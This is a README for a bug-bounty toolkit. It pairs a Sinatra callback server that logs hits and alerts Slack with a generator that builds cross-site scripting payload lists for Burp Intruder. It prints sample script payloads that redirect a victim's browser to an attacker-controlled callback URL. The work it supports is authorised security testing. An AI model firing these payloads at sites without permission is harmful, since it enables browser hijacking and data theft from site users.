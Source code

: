 # hack @ ajoekerr

:boom: Bug bounty in a box! This repository contains all that you should need to get up and running to test for bugs against your targets.

## Project Status

This is by no means "production ready"; there are still some server configuration options that need to be explored before this should be run in production.

### To-do list

1. Productionize the Sinatra callback server
1. Add more payloads!
1. Add more endpoints!
1. Add "Development" guide

## Quickstart

To get up & hacking, you'll need to:

1. Move the configuration sample: `mv config/application.yml.sample config/application.yml`
1. Edit the `config/application.yml` to your preferences
1. Install the gems: `bundle install`
1. Start the server: `ruby app.rb`
1. Move the payload sample: `mv payloads/xss.yml.sample payloads/xss.yml`
1. Generate the payloads: `ruby generate_payloads.rb --callback=YOUR_SERVER_URL --target=YOUR_TARGET`
1. Use `payloads/xss.txt` in Burp's Intruder (or something similar)
1. Cross your fingers...
1. Profit!

## How does this work?

This "bug bounty in a box" has two different components:
1. A payload callback server
1. A payload generator

### Callback Server

The callback server, written in Ruby & using [Sinatra](http://sinatrarb.com/), currently has the following capabilities:

* Callback: A callback with a payload & target parameter will log the "callback" to a on-server text log as well as send a Slack message to a Slack webhook. (`/callback`)
* Redirect: Redirects to a specified URL in the redirect GET parameter. (`/redirect`)

#### Configuring the server

You can configure the server in `config/application.yml`! See below for the different configuration options.

##### Slack

In order to receive Slack callbacks, you'll need to set the appropriate `slack_url`. To generate an incoming webhook for your Slack instance, check out [Slack's Help Center](https://get.slack.help/hc/en-us/articles/115005265063-Incoming-WebHooks-for-Slack).

##### Logging

If you'd like to change either the frequency of the log rotation or the log filenames, check out the configuration file.

### Payload Generator

The payload generator uses `.yml` files to generate a `.txt` files that contain a list of payloads that can be used in a tool like Burp Intruder.

#### Running the payload generator

Before running the payload generator, make sure you have some properly formatted `.yml` files in the `payloads` folder! After you've done that, you'll need to run the payload generator with the `--callback` and `--target` flags like such:

```bash
ruby generate_payloads.rb --callback=localhost:4567/callback --target=www.example.com
```

Then, check out the `payloads` folder for the `.txt` file with a list of payloads!

#### Configuring payloads

In order to add a new class of payloads, just create a new `.yml` file with the following:

```yaml
name: XSS
payloads:
  - description: A simple XSS payload
    payload: <script>document.location='CALLBACK_URL'</script>
  - payload: <script>document.location="CALLBACK_URL"</script>
```

The `CALLBACK_URL` will be replaced with whatever is passed in with the `--callback` flag with some added parameters of (1) a callback description & (2) the target.

## Contributing

Want to contribute? Great! Here's what you do:

1. Fork this repository
1. Push some code to your fork
1. Come back to this repository and open a PR
1. After some review, get that PR merged to master
1. :tada: Thank you for your contribution!!

Feel free to also open an issue with any bugs/comments/requests!
